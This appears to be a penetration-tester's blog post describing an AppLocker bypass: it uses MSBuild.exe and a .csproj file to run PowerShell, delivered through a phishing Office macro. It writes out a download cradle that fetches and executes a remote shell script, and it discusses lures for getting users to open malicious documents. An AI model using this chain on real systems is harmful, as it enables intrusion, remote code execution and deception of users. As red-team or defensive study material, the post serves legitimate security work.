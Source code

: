 ```yaml
---
layout: post
title: MSBuild AppLocker Bypass Phishing Payload
published: true
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png){: .center-image }

### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and despite simulated phishing campaigns and user awareness training there can never be complete assurance against credential divulgence or execution of malicious code.  So it is critically important that organisations implement a multi-layered "defence in depth" strategy. Application whitelisting is an important component of such a strategy, and is an effective means of ensuring that only approved applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. The default AppLocker rules for Windows 10 are listed below.

![rules]({{ site.url }}/images/applocker-default-rules.png){: .center-image }

Since Powershell has gained recognition for being the attackers language of choice, many organisations are [increasingly] additionally blocking it. However, blocking powershell.exe is often not sufficient and there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with default rules and has also blocked Powershell.

![rules]({{ site.url }}/images/applocker-rules.png){: .center-image }

We can pass a ".csproj" (Visual Studio .NET C# Project file) to MSBuild and have it execute C# and instantiate a Powershell runspace using System.Management.Automation.dll. The powashell.csproj file below by Casey Smith (@SubTee) builds upon Jared Atkinson's (@jaredcatkinson) and Justin Warner's (@sixdub) work.

<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>

Within this we execute our PowerShell 3.0+ download cradle:

`pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");`

our shell.ps1:

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>

Good. But now we need a means of delivering the project file and executing MSBuild. The macro below will download the csproj file to disk and execute the payload.

<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>

In order to stand a chance of the macro being executed, we need to dress the document appropriately.

John Lambert (@JohnLaTwC) regularly shares interesting phishing lures and payloads, if you need inspiration for simulated phishing campaigns ;) . I find the "Document created in newer/older Office version" lures especially convincing. John has put together [this](https://t.co/OwH28ltngy) compendium of macro based lures, which is great for educating users about the different lures attackers use.

Now that our "malicious" document has been created we can test this out in the lab.


